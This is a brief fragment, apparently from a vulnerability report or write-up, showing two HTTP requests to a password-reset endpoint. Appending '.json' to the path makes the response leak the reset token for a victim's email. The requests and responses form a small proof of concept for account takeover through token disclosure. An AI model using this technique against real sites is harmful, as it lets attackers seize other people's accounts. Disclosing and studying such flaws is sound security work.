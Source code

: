 	Request:
	GET /ResetPassword HTTP/1.1
	{"email":"victim@example.com"}

	Response:
	HTTP/1.1 200 OK

	Request:
	GET /ResetPassword.json HTTP/1.1
	{"email":"victim@example.com"}

	Response:
	HTTP/1.1 200 OK
	{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}